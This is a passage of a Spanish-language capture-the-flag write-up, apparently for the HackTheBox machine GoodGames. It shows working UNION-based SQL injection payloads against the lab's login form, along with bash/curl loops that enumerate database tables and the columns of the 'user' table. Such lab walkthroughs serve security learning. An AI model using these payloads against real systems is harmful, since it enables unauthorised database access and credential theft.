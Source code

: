 ![image](../zimages/Pasted%20image%2020241031145507.png)

Ahora que tenemos una forma de listar las tablas, vamos a automatizar este proceso. Como las peticiones de Burpsuite se tramitan por POST, vamos a utilizar curl utilizando un secuenciador para que vaya probando todos los números, de esta manera:

```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf")";done | grep "Welcome"
```

Aquí hacemos los siguiente:

1. Creamos una variable que almacena una secuencia de números del 0 al 100 [for i in $(seq 0 100);].
2. Usamos esa variable para que en pantalla nos muestre cada uno de los intentos con un mensaje [do echo "[+] Tabla número $i =]
3. En el resto del comando estamos utilizando curl con los siguientes parámetros:
	1. Parámetro "-s": significa 'silent mode', para hacer la enumeración silenciosamente.
	2. Parámetro "-X": nos deja especificar el formato de petición que haremos, en este caso ponemos que la haremos por 'POST'.
	3. Parámetro "--data": le indicamos los datos que queremos enviar como petición, que es la iyección sql.
4. Por último ponemos "; done" para terminar ese comando de la terminal.
5. Filtramos por la palabra "Welcome" para no ver el código entero.

Aun así lo vemos bastante feo, aunque nos saca todas las bases de datos:

![image](../zimages/Pasted%20image%2020241031151409.png)

Como se ve muy feo, lo podemos mejora con este comando, donde básicamente usamos expresiones regulares para ordenar y mostrar el resultado como queremos:
```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")";done
```

Y así es como se vería:

![image](../zimages/Pasted%20image%2020241031152220.png)

Eso serían todas las tablas, pero también podemos hacer que nos muestre solo las  tablas de la base de datos "main", que era la que más interés tenía, añadiendo lo siguiente a la inyección SQL:

```mySQL
where table_schema='main'
```

![image](../zimages/Pasted%20image%2020241031152839.png)

Nos lista 3 tablas, la que nos interesa es "user", así que se lo vamos a indicar modificando la inyección, que está contenida en el parámetro "--data" del curl:

```mySQL
email=' union select 1,2,3,column_name from information_schema.columns where table_schema='main' and table_name='user' limit $i,1-- -&password=fadsf
```

